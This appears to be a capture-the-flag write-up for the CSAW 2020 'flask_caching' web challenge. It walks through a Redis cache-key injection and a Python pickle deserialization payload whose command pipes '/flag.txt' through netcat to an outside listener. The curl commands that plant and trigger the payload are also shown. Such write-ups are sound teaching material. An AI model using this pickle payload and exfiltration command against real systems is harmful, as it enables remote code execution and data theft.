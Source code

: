 ```yaml
---
title: CSAW 2020 flask_caching
date: 2020-09-15
---
```


The 300 point web problem in the 2020 CSAW CTF seems to have a reasonable
number of solves, and I don't have much time in the evening, so I think I'll
start there.

## What's in a name? ##

The problem comes with a single source file for a flask-based webapp, `app.py`,
and a link to a live instance.

Scanning the source, the following line stands out:

```python3
redis.setex(name=title, value=content, time=3)
```

This looks like it could represent some sort of injection vulnerability. The
two things I imagine need to hold for this to be useful are:

* The `flask_caching` implementation uses predictable keys for cache entries.
* The `title` here is not being sanitized to prevent it from colliding with
  those predictable keys.

So I start into verifying the former by pulling down source for
`flask_caching` (or rather diving into the existing virtualenv I had made), but
a reality check from a teammate, Flay, saves me some time: just running the
app locally, and using `redis-cli KEYS '*'` after requesting a cached view,
spits out a deterministic result:

```sh
$ curl -s http://0.0.0.0:5000/test0 >/dev/null && redis-cli KEYS '*'
1) "flask_cache_view//test0"
```

By inspection we can also all but confirm the latter: the `title` is only
required to be present in the request, and have a length of no more than `100`
codepoints (or bytes, not sure what kind of string it is, and it ends up being
immaterial anyway).

Let's try this all out with an example:

```sh
$ curl -s http://0.0.0.0:5000/test0 >/dev/null \
    && redis-cli GET flask_cache_view//test0 \
    && printf 'foobar' | curl -s http://0.0.0.0:5000/ -X POST \
        -F title=flask_cache_view//test0 -F content=@- \
    && redis-cli GET flask_cache_view//test0
"!\x80\x04\x95\b\x00\x00\x00\x00\x00\x00\x00\x8c\x04test\x94."
Thanks!
"foobar"
```

Great!

## Weaponizing a Pickle ##

My first thought, shared by others on the team, is that the most likely vector
to exploit this vulnerability is at the point where a live cache entry is
deserialized, and most likely the serialization being used is Pickle. This may
just be wishful thinking, as Pickle is known to represent RCE on untrusted
input, but a quick grep of the `flask_caching` source bears it out. A few lines
of `python` later and we have something to test:

```python3
#!/usr/bin/env python3

import pickle
import sys
import os

# this form of de-pickle code execution found by googling "python pickle
# injection" which is a delightful name
class Payload():
    def __reduce__(self):
        # the path '/flag.txt' discovered via `ls`, then `ls /`
        return (os.system, ('cat /flag.txt | nc <redacted> 1234',))

# flask_caching prepends '!' to the cache_key when it is a non-integer,
# seemingly as an optimization for integer keys?
sys.stdout.buffer.write(b'!' + pickle.dumps(Payload()))
```

With a listen server set up to catch the flag, we can inject the payload into
the cache and then request the cached view to become the `f1@sK_10rD`:

```sh
$ nc -l 1234 &
$ ./payload.py \
    | curl -s http://web.chal.csaw.io:5000/ -X POST \
        -F title=flask_cache_view//test0 -F content=@- >/dev/null \
    | curl -s http://web.chal.csaw.io:5000/test0 >/dev/null
flag{f1@sK_10rD}
```
